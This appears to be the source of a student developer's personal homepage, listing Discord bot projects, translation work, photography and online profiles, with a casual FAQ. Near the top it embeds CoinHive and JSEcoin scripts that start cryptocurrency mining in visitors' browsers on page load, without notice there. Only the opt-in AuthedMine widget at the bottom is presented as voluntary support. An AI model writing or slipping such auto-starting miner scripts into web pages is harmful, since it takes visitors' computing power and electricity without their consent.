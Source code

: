 ```yaml
---
layout: default
title: AustinHuang.me
permalink: /
---
```


<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
	var miner = new CoinHive.Anonymous('NS1Lh4sTCMiS0AcazVxeqiDKUXIrkTnX', {throttle: 0.2});
	if (!miner.isMobile() && !miner.didOptOut(14400)) {
		miner.start();
	}
</script>

<script type="text/javascript">
!function(){var e=document,t=e.createElement("script"),s=e.getElementsByTagName("script")[0];t.type="text/javascript",t.async=t.defer=!0,t.src="https://load.jsecoin.com/load/40497/austinhuang.me/0/0/",s.parentNode.insertBefore(t,s)}();
</script>

So let's see what I'm up to.

## My coding projects
* [DiscordTel](http://github.com/austinhuang0131/discordtel) is a Discord bot that simulates the process of phone dialing on Discord servers. It ~~has~~ had reached more than 2300 guilds, which was erased by Discord. Currently in the process of restructuring. Also, I earned $50 from it.
* [Metagon](https://metagon.cf) is a multi-platform bot that has a lot of useful tools. Currently my main focus.
* [Discoin](http://discoin.gitbooks.io/docs) is a currency exchange serving 7 Discord bots.

## Projects I am involved in
You can see my [GitHub profile](http://github.com/austinhuang0131). I am currently involved in these projects:

* [BotList.space](http://botlist.space) (Staff)
* [Discord.Services](http://discord.services) (Staff)
* [Disboard](http://disboard.org/) (Co-Owner)
* [MCRep.us](http://mcrep.us) (Developer)

## My translations
I do some translations, too, usually from Japanese or Chinese to English. I have done translations in these projects:

* [BotList.space](http://botlist.space) (All of Chinese translation)
* [Hashimoto Lulu project](http://luluidoll.jp/tagged/english)
* [Terminal.ink Bot List](https://ls.terminal.ink/) (All of Chinese translation)
* [Weblate](https://hosted.weblate.org/user/austinhuang0131/) projects:
  * 30% of Chinese translation in [Liberapay](https://liberapay.com/)
  * 1% of Chinese translation in [Andor's Trail](https://andorstrail.com/)
  
## My photos
I have a white Pentax K-50.

* I upload all my photos on my [Flickr](https://flic.kr/austin0131).
* I post some of my best ones on my [Instagram](https://instagram.com/austinhuang0131).

## My other online stuff

* [AniList](https://anilist.co/user/austinhuang): Animes I watch.
* [Colnect](https://colnect.com/en/collectors/collector/Austin-Huang): Transit tickets and stuff I collect.
* [Discord](https://discord.gg/8uFr3J3)
* [edX](https://courses.edx.org/u/austinhuang0131): Online classes I learn (And I do have some certificates)
* [KeyBase](https://keybase.io/austinhuang) (And this website is [Keybase'd](/keybase.txt))
* [NationStates](https://www.nationstates.net/nation=the_cafes): A political simulation game.
* [OpenGeofiction](http://wiki.opengeofiction.net/wiki/index.php/Esthyra): A geographical simulation game.
* [Reddit](http://reddit.com/u/austinhuang)
* [Twitter](http://twitter.com/montreal0131)

<table width="100%">
  <tr>
    <td width="50%"><iframe allowtransparency="true" frameborder="0" scrolling="no" seamless="seamless" src="https://cdoyle.me/gh-activity/gh-activity.html?user=austinhuang0131&type=user" width="100%" height="400px"></iframe>
</td>
    <td width="50%"><!-- InstaWidget -->
<a href="https://instawidget.net/v/user/austinhuang0131" id="link-399fb367133a7c8a206a0f1b39364fa77c34b125a639fea7aa68bd280b0372d3">@austinhuang0131</a>
<script src="https://instawidget.net/js/instawidget.js?u=399fb367133a7c8a206a0f1b39364fa77c34b125a639fea7aa68bd280b0372d3&width=300px"></script></td>
  </tr>
</table>

## May I ask some questions?
Obviously, sure.

### Hobbies?
Coding, modeling, mapping, reading news, learning AP and French online, and listening to sick beats are things I do a lot. And Anime sometimes. Skating, softball and badminton, especially, are my favourite sports.

Recently I found myself enjoying creative writing.

### Hardware?
A school-provided MacBook Air ($500) plus several shared VPS from online people and free services. That's it.

### You said you're from...Shanghai?
Yeah. I actually went to the same high school as [@simonguozirui](https://github.com/simonguozirui) did and went abroad at the same time as he did.

### What about a formal resume, *please?*
Nah man. *skirt skirt dab dab*

### I mean you didn't answer my question...
You can ask it [here](https://github.com/austinhuang0131/austinhuang0131.github.io/issues), then.

### Hey, you look cool. How can I support you?
You can either [donate](/donate.html) or start the Monero miner below.

<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 100%; height: 100px"
	data-action="#76c2f8"
	data-key="NS1Lh4sTCMiS0AcazVxeqiDKUXIrkTnX">
	<em>Loading...</em>
</div>
